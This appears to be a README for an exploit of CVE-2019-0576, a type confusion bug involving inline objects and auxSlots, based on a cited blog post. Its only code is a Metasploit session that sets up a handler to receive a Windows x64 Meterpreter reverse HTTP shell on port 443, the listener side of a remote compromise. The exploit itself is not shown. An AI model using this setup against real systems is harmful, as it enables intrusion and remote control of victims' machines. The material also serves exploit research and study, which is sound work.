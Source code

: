 # CVE-2019-0576

Based on <https://connormcgarr.github.io/type-confusion-part-1/>

Type confusion where inline object is changed to use `auxSlots` when it is
used as function prototype

```sh
$ msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_http
payload => windows/x64/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > exploit
```
